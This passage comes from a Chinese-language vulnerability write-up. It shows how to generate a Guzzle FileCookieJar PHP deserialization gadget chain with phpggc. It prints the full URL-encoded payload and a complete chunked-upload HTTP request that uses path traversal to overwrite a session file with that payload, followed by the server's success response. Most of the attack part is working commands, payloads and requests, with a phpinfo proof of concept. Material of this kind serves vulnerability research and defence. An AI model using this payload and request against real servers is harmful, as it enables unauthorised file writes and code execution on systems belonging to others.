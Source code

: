 ```
}
```  
  
或者直接使用 phpggc   
快速生成：  
```
./phpggc -l | grep guzzle
Guzzle/FW1       4.0.0-rc.2 <= 7.5.0+       File write            __destruct
```  
  
通过参数可知本条 gadget chain   
合适。  
  
（1）类型是文件写入(File write)  
  
（2）触发向量是__destruct方法  
  
（3）版本兼容范围广(4.0.0-rc.2 到 7.5.0+)，覆盖了本框架中使用的 Guzzle 版本  
```
php ./phpggc Guzzle/FW1 ttest.php .\phpinfo.php -u
O%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A21%3A%22%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%0D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A9%3A%22ttest.php%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7D
```  
  
这个 payload 利用了 PHP 的对象序列化机制，当反序列化 FileCookieJar  
 对象时，对象的 __destruct  
 方法会被调用，进而触发文件写入操作，将恶意 PHP 代码写入到服务器上的某个位置。  
### 步骤二：构造恶意请求，覆盖会话文件  
  
攻  
击者发送包含目录穿越的分片上传请  
求：  
```
POST /index/user/upload?chunkId=1/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL&index=1&fileExt=jpg HTTP/1.1
Host: 192.168.3.3:8787
Cookie: SESSION_ID=bbd4d396f614da41a0cb74da972ff844; uid=2; token=250e4ef8162d56748202c5ad95f1058c; nickname=go0p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Length: 733
------WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Disposition: form-data; name="file"; filename="1."
Content-Type: image/jpeg
{{urldec(O%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A1%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A9%3A%7Bs%3A4%3A%22Name%22%3Bs%3A3%3A%22aaa%22%3Bs%3A5%3A%22Value%22%3Bs%3A19%3A%22%5C%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Bs%3A6%3A%22Domain%22%3Bs%3A10%3A%22testDomain%22%3Bs%3A4%3A%22Path%22%3Bs%3A1%3A%22%2F%22%3Bs%3A7%3A%22Max-Age%22%3BN%3Bs%3A7%3A%22Expires%22%3BN%3Bs%3A6%3A%22Secure%22%3Bb%3A0%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A8%3A%22HttpOnly%22%3Bb%3A0%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3Bb%3A0%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A9%3A%22ttest.php%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7D)}}
------WebKitFormBoundaryGm1kPOLTg3kmc3MF--
返回包 body 如下
{
  "code": 200,
  "msg": "分片上传成功",
  "url": "",
```